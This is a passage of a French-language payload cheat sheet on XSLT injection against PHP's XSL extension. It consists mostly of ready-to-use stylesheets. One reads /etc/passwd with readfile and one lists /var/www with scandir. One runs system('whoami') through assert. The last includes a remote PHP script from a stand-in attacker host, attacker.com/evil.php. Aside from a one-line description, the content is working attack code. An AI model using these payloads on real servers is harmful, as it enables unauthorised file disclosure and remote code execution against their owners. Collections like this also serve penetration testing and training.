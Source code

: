 **Description :** Exécuter des fonctions PHP directement via XSLT.

**4.1 - Exécuter `readfile()` :**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" 
      xmlns:xsl="http://www.w3.org/1999/XSL/Transform" 
      xmlns:php="http://php.net/xsl">
  <body>
    <h2>Lecture de fichier avec PHP</h2>
    <pre>
      <xsl:value-of select="php:function('readfile','/etc/passwd')"/>
    </pre>
  </body>
</html>
```

**4.2 - Exécuter `scandir()` :**

```xml
<xsl:stylesheet version="1.0"
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:php="http://php.net/xsl">
  
  <xsl:template match="/">
    <html>
      <body>
        <h2>Liste des fichiers dans /var/www</h2>
        <xsl:value-of select="php:function('scandir', '/var/www')"/>
      </body>
    </html>
  </xsl:template>
</xsl:stylesheet>
```

**4.3 - Exécuter `system()` via `assert()` :**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" 
      xmlns:xsl="http://www.w3.org/1999/XSL/Transform" 
      xmlns:php="http://php.net/xsl">
  <body>
    <xsl:variable name="payload">
      system('whoami')
    </xsl:variable>
    <xsl:variable name="exec" select="php:function('assert',$payload)"/>
    <result><xsl:value-of select="$exec"/></result>
  </body>
</html>
```

**4.4 - Charger un script PHP distant :**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0"
      xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
      xmlns:php="http://php.net/xsl">
  <body>
    <xsl:variable name="payload">
      include("http://attacker.com/evil.php")
    </xsl:variable>
    <xsl:variable name="include" select="php:function('assert',$payload)"/>
  </body>
</html>
```
